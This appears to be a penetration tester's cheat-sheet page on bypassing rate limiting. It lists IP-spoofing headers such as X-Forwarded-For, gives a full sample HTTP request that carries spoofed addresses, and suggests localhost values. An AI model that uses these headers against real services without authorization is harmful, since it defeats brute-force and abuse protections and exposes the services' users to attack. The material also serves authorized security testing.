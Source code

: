 ___
### Identify rate limiting technique
Potential:
- Headers?
- User agents?
- Cookies? Session tokens?
- HTTP verb tamperng?
- Decrease amount and speed of requests?

**Quick win headers:**
```
X-Real-IP:
X-Forwarded-For:
X-Originating-IP:
Client-IP:
True-Client-IP:
```
1st, get yourself rate limited, then send a request with these headers, check bypass
```
POST / HTTP/2
Host: jacobh.io
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
X-Real-IP: 1.2.3.4
X-Forwarded-For: 1.2.3.4
X-Originating-IP: 1.2.3.4
Client-IP: 1.2.3.4
True-Client-IP: 1.2.3.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Also try localhost
```
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
```
